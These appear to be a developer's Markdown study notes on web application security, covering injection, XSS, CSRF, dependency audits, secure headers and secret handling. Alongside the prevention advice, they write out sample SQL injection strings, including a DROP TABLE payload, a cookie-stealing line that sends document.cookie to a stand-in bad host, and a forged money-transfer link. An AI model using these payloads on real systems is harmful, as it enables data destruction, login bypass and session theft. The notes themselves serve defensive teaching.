


### Star of Security


* https://www.hacksplaining.com/lessons
* https://watchyourhack.com/
* https://owasp.org/
### Injections

* Most common Attack
* Injecting code to another piece of code
* Most famous: SQL Injection
* https://www.hacksplaining.com/exercises/sql-injection
```txt
' or 1=1--
The above in Password field so that it will return True
'; DROP TABLE users; --
```
```sql
CREATE TABLE sqlinjection (
  id serial PRIMARY KEY,
  email text UNIQUE NOT NULL
)

INSERT INTO sqlinjection (email) VALUES ('lol');

--Example of sql injection
INSERT INTO sqlinjection (email) VALUES (''; DROP TABLE sqlinjection; --);

-- means comment everything after it
```
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/index.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js
```js
<script>alert('boom')</script>
```
* Scripts injected into the DOM via script tags in innerHTML are not run at the time they are injected
  * Inline scripts are run at the time the original page is parsed
```js

```
* On the other hand, images injected into the DOM are loaded at that time, and if the loading fails, then the onerror event handler is called 
* But Images are loaded
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/script.js#L2
* Use **createTextNode instead of innerHTML**

#### 3 ways to prevent Injection
1. Sanitize input: For data validation, only allow user to enter data of expected type(like text, email etc)
2. Parametrize Queries: Give only parameters 
3. Knex.js or other ORMS

### 3rd Party Libraries

* Library you can trust
* Go to Github and check their stars and forks
```sh
npm install -g nsp
# use sudo if you lack permission
nsp check # audit package.json

npm install -g snyk
synk test # audit node_modules directory
```

### Logging

* With good Logging, we would be able to find issues quickly
```sh
npm i winston
npm i morgan
```
```js
const morgan = require('morgan')

app.use(morgan('combined')); // or 'tiny'
```
* http://expressjs.com/en/resources/middleware/morgan.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L18-L19
* https://www.npmjs.com/package/winston
* Never log out system errors to Front-end

### HTTPS Everywhere

* SSL/TLS Certificates
* Encrypts the info between client and server
* To get HTTPS
  * Let's Encrypt(https://letsencrypt.org/): Free
  * Github Pages
  * Cloudfare
  
### XSS & CSRF

* https://www.hacksplaining.com/exercises/xss-stored
* https://www.hacksplaining.com/exercises/csrf
* https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
* **XSS**: Cross Site Scripting
  * Whenever an Application includes untrusted data in a new Web page without proper validation or escaping
  * Updating a Web page with User supplied data using JS
  * Allows Attacker to execute scripts in a victim's browser
  * Example of blog post in which attacker uses comments to include js code
  * Used for **session hijacking**
```js
window.location = 'haxxed.com?cookie=' + document.cookie
// haxxed.com is a bad website
// Send the cookie from your browser
```
  * To prevent this, sanitize the inputs
* **CSRF**: Cross Site Request Forgery
  * Create a bad url that has malicious code in it
```js
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=100">Read more!</a>
// Click on a link to send money
// Here get request and query parameters are used, instead we can also use post request and various other things
```
* We can set headers in our endpoints to make it secure
  * For ex, in twitter you can't send document.cookie to other sites due to Security Content Policy
```js
app.get('/', (req, res) => {
  res.cookie('session', '1', { httpOnly: true, })
  res.cookie('session', '1', { secure: true })
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
  res.send('Hello World!')
})
// Only places js to be run is self: localhost and google apis
// There are npm packages where this is done automatically
```

#### To Prevent XSS & CSRF

* Sanitize input
* No eval()
* No document.write()
* Content Security Policy
* Secure + HTTPOnly Cookies

### Code Secrets

1. Environment Variables: API key
   * process.env set by create-react-app
   * Under the hood, it uses dotenv package
   * .env file in create-react-app(REACT_APP_SAY_HI=HIII)
   * Run npm start again and you can see the details in process.env
2. Commit History
  * Include .env in .gitignore
  * Don't commit your code secrets to Github

### Secure Headers

* npm install helmet
* Without helmet, make some request in input field
* In Network tab of that request, in the Headers section, you see
  * Info of X-Powered-By: Express
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L9-L10
* HTTP Headers: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
* HTTP Header fields: https://www.tutorialspoint.com/http/http_header_fields.htm
* helmet: https://github.com/helmetjs/helmet
* HTTP: The Protocol Every Web Developer Must Know: https://code.tutsplus.com/tutorials/http-the-protocol-every-web-developer-must-know-part-1--net-31177

### Access Control

* Principal of least privilege
  * Give nearly enough so that People can do their work and nothing more
* CORS: Cross origin resource sharing
  * Access to only people we trust using corsOptions


### Data Management

* Encrypt only sensitive data
  * bcrypt, scrypt, aragon2
  * pgcrypto - encrypt a few columns(Encrypting database)
* https://rangle.io/blog/how-to-store-user-passwords-and-overcome-security-threats-in-2017/

### Don't Trust Anyone


* ratelimiter when client is compromised and sends requests after requests

### Authentication


* 2 factor authentication
* https://www.hacksplaining.com/lessons
* https://watchyourhack.com/